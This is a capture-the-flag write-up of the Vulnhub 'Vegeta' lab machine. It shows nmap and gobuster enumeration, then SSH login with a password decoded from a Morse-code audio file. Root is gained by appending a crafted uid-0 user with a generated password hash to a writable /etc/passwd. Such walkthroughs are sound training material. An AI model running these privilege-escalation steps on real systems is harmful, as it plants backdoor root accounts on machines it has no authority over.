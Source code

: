 ```yaml
---
title: Vulnhub - Vegeta
description: My writeup on Vegeta box.
categories:
 - vulnhub
tags: vulnhub morse gobuster etcpasswd
---
```


![](https://static2.cbrimages.com/wordpress/wp-content/uploads/2020/04/perfected-super-saiyan-blue-vegeta.jpg)

Hi all, let's pwn it!

You can find the machine there > [Vegeta](https://www.vulnhub.com/entry/vegeta-1,501/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.7
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:54 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00018s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.34 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-16 17:55 EEST
Nmap scan report for vegeta.zte.com.cn (192.168.1.7)
Host is up (0.00038s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1f:31:30:67:3f:08:30:2e:6d:ae:e3:20:9e:bd:6b:ba (RSA)
|   256 7d:88:55:a8:6f:56:c8:05:a4:73:82:dc:d8:db:47:59 (ECDSA)
|_  256 cc:de:de:4e:84:a8:91:f5:1a:d6:d2:a6:2e:9e:1c:e0 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:6A:20:00 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's run `gobuster` on it:

```
$ gobuster dir -q -u http://$ip/ -w /root/Documents/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,txt,html -o gobuster.txt
/index.html (Status: 200)
/img (Status: 301)
/login.php (Status: 200)
/image (Status: 301)
/admin (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
/bulma (Status: 301)
```

## Decoding morse code audio - shell as trunks

`/bulma` gives us a .wav file let's download it and listen to it.

```
$ wget -q http://192.168.1.7/bulma/hahahaha.wav
```

All we can here is "beep boop" that's probably morse code. I found an online [decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html)

![](https://i.imgur.com/SZP2Cig.png)

`TRUNKS PASSWORD : US3R(S IN DOLLARS SYMBOL)` 

That's probably a system user and his password. Let's give it a go with ssh:

```
$ sshpass -p 'u$3r' ssh trunks@$ip 'ls -la'
total 28
drwxr-xr-x 3 trunks trunks 4096 Jun 28 21:32 .
drwxr-xr-x 3 root   root   4096 Jun 28 17:37 ..
-rw------- 1 trunks trunks  382 Jun 28 21:36 .bash_history
-rw-r--r-- 1 trunks trunks  220 Jun 28 17:37 .bash_logout
-rw-r--r-- 1 trunks trunks 3526 Jun 28 17:37 .bashrc
drwxr-xr-x 3 trunks trunks 4096 Jun 28 19:45 .local
-rw-r--r-- 1 trunks trunks  807 Jun 28 17:37 .profile
```

## trunks -> root

Perfect, now privesc is simple. We have to exploit writable `/etc/passwd`:

```
trunks@Vegeta:~$ ls -la /etc/passwd
-rw-r--r-- 1 trunks root 1486 Jun 28 21:23 /etc/passwd
```

Let's generate a password first:

```
$ openssl passwd -6 -salt xyz pwned    
$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1
```

Now the format of `/etc/passwd` is this:

`r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash`

Let's add it:

```
trunks@Vegeta:~$ echo 'r000t:$6$xyz$5I4IoAWqNNcGCYvBCeIz0UZr5NoOPvvHrwR9B1AX7.1fYnHX3clTDW9YRVi3TYivXiJ8Mb8clrGt7.gTxZGXb1:0:0:comment:/root:/bin/bash' >> /etc/passwd
trunks@Vegeta:~$ su - r000t
Password: 
root@Vegeta:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

The flag:

```
root@Vegeta:~# cat root.txt 

Hurray you got root

Share your screenshot in telegram : https://t.me/joinchat/MnPu-h3Jg4CrUSCXJpegNw
```

Silly :P
